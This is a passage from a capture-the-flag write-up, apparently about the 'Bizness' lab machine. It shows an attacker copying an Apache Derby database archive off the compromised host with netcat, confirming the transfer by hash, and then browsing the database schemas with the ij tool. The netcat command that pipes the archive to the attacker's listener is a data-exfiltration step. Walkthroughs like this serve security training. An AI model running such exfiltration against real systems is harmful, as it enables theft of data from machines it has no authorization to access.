 I'll listen with `nc` on my host, and send the archive into it:



    ofbiz@bizness:/opt/ofbiz/runtime/data$ md5sum /tmp/0xdf.tar.gz                
    cb25d6b5c2cbbac1040520379cdc0e67  /tmp/0xdf.tar.gz
    ofbiz@bizness:/opt/ofbiz/runtime/data$ cat /tmp/0xdf.tar.gz | nc 10.10.14.6 80



On my host:



    oxdf@hacky$ nc -lnvp 80 > derby.tar.gz
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.252 48604
    ^C
    oxdf@hacky$ md5sum derby.tar.gz 
    cb25d6b5c2cbbac1040520379cdc0e67  derby.tar.gz



The hashes match, so the first is complete and not corrupted.

#### Tools to View

I'll show a couple of different ways to interact with the Derby data now
that it's on my host:

    flowchart TD;
        A[Exfil Derby DB]-->B(<a href='#via-ij'>ij</a>);
        B-->C[Admin hash];
        A-->D(<a href='#via-dbeaver'>DBeaver</a>);
        D-->C;

    linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;

#### Via ij

`ij` is an "interactive SQL scripting tool that comes with Derby",
according to [the
docs](https://db.apache.org/derby/papers/DerbyTut/ij_intro.md). I'll
install it with `apt install derby-tools`.

I'll run it, and then connect to my database:



    oxdf@hacky$ ls
    derby.log  ofbiz  ofbizolap  ofbiztenant
    oxdf@hacky$ ij
    ij version 10.14
    ij> connect 'jdbc:derby:./ofbiz';
    ij> 



`show schemas;` will show the databases:



    ij> show SCHEMAS;
    TABLE_SCHEM                   
    ------------------------------
    APP                           
    NULLID                        
    OFBIZ                         
    SQLJ                          
    SYS                           
    SYSCAT                        
    SYSCS_DIAG                    
    SYSCS_UTIL                    
    SYSFUN                        
    SYSIBM                        